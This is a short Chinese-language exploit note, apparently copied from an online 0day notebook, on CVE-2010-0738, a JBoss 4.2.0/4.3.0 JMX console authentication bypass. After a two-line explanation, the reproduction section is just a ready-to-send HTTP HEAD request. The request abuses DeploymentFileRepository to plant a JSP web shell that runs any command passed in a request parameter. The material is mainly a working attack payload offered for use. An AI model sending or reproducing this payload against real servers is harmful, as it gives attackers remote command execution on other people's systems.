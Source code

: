 # （CVE-2010-0738）JMX 控制台安全验证绕过漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2010-0738）JMX 控制台安全验证绕过漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2010-0738）JMX 控制台安全验证绕过漏洞.html)

## 一、漏洞简介

这个漏洞利用方法跟 CVE-2007-1036 一样，不过这个是绕过了 get 和 post 传输限制，利用 head 传输方式发送 payload

## 二、漏洞影响

jboss4.2.0 and jboss 4.3.0

## 三、复现过程

因为跟上个漏洞利用差不多，只不过用了 head 传输方式，我这里就直接贴 payload 了

```
HEAD /jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.admin%3Aservice%3DDeploymentFileRepository&methodIndex=6&arg0=..%2Fjmx-console.war%2F&arg1=hax0rwin&arg2=.jsp&arg3=<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True HTTP/1.1

Host: hostx:portx

User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9) Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-us,en;q=0.5

Accept-Encoding: gzip,deflate

Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7

Keep-Alive: 300

Proxy-Connection: keep-alive 
```

